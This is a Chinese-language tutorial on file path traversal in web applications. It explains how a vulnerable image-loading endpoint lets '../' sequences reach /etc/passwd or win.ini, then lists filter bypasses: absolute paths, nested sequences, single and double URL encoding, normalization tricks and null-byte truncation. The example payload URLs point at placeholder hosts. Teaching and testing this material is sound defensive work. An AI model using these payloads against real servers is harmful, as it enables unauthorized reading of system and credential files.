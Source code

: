 文件路径遍历漏洞是Web应用中常见的安全问题之一，攻击者可以通过该漏洞读取服务器上的任意文件。本文将详细介绍文件路径遍历漏洞的原理以及常见的绕过防护措施的方法。
## 通过路径遍历读取任意文件
某购物应用通过 `<img>` 标签加载商品图片，代码如下：
```html
<img src="/loadImage?filename=218.png">
```
`loadImage` 接口通过 `filename` 参数指定文件名，从 `/var/www/images/` 目录读取文件并返回内容，构造的文件路径为：
```
/var/www/images/218.png
```
### 攻击原理
该应用未对路径遍历攻击做防护，攻击者可利用此漏洞。例如，请求以下URL：
```html
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```
此时文件路径变为：
```
/var/www/images/../../../etc/passwd
```
`../` 表示向上一级目录移动，连续三个 `../` 使路径从 `/var/www/images/` 跳转到文件系统根目录，最终读取的文件是：
```
/etc/passwd
```
在 Unix 系统中，该文件包含服务器注册用户信息。攻击者可利用相同技术读取其他任意文件。
### Windows系统情况
在Windows系统中，`../` 和 `..\` 都是有效的目录遍历序列。例如：
```html
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```
这将读取 `C:\windows\win.ini` 文件。
## 绕过路径遍历漏洞防护的常见方法
### 1. 使用绝对路径
如果应用未对绝对路径做限制，可直接指定文件路径，例如：
```html
https://example.com/loadImage?filename=/etc/passwd
```
### 2. 嵌套遍历序列
利用嵌套的遍历序列绕过简单过滤，例如：
```html
https://example.com/loadImage?filename=....//....//etc//passwd
```
或混合使用正反斜杠：
```html
https://example.com/loadImage?filename=....\/....\/etc\/passwd
```
### 3. URL编码与双重编码
在某些情况下，例如在 URL 路径或 `multipart/form-data` 请求的 `filename` 参数中，Web 服务器可能会在将输入传递给应用程序之前去除任何目录遍历序列。
所以，可对 `../` 进行URL编码或双重编码绕过过滤：
- 单层编码：`%2e%2e%2f`
- 双重编码：`%252e%252e%252f`
- 非标准编码：`..%c0%af` 或 `..%ef%bc%8f`
### 4. 路径规范化绕过
利用路径规范化特性构造有效路径，例如：
```html
https://example.com/loadImage?filename=/var/www/images/../../../etc/passwd
```
### 5. 满足文件名要求的绕过
#### 5.1 以特定目录开头
如果要求文件名必须以 `/var/www/images` 开头，可构造：
```html
https://example.com/loadImage?filename=/var/www/images/../../../etc/passwd
```

#### 5.2 以特定扩展名结尾
如果要求文件名必须以`.png`结尾，可使用空字节截断：
```html
https://example.com/loadImage?filename=../../../etc/passwd%00.png
```
